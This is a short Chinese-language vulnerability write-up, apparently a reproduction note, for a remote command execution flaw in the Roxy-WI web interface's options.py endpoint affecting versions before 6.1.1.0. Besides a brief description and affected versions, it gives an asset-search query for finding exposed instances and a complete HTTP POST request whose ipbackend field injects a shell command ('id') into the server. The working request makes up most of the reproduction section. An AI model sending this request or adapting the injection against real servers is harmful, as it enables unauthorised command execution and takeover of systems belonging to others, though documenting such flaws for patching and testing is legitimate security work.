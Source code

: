 # Roxy-WI options.py远程命令执行漏洞

# 一、漏洞简介
`Roxy-WI`是开源的一款用于管理`Haproxy`、`Nginx`和`Keepalive`服务器的`Web`界面。`Roxy-WI 6.1.1.0`之前版本`options.py`接口存在远程命令执行漏洞，攻击者可以执行命令获取服务器权限。

# 二、影响版本
+ Roxy-WI 6.1.1.0之前

# 三、资产测绘
+ hunter`app.name="Roxy-WI"`
+ 登录页面

![1693667442839-660cc767-28ad-4aad-bd3b-4d9c2e14d7be.png](./img/iCSSjRE_IUgiPq-B/1693667442839-660cc767-28ad-4aad-bd3b-4d9c2e14d7be-859787.png)

# 四、漏洞复现
```java
POST /app/options.py HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 82

alert_consumer=1&serv=127.0.0.1&ipbackend=%22%3Bid+%23%23&backend_server=127.0.0.1
```

![1693667552294-597d9ca3-20e3-4250-b873-5f3200e3583d.png](./img/iCSSjRE_IUgiPq-B/1693667552294-597d9ca3-20e3-4250-b873-5f3200e3583d-511689.png)



> 更新: 2024-02-29 23:57:33  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/rhpr1hfx80b04z1f>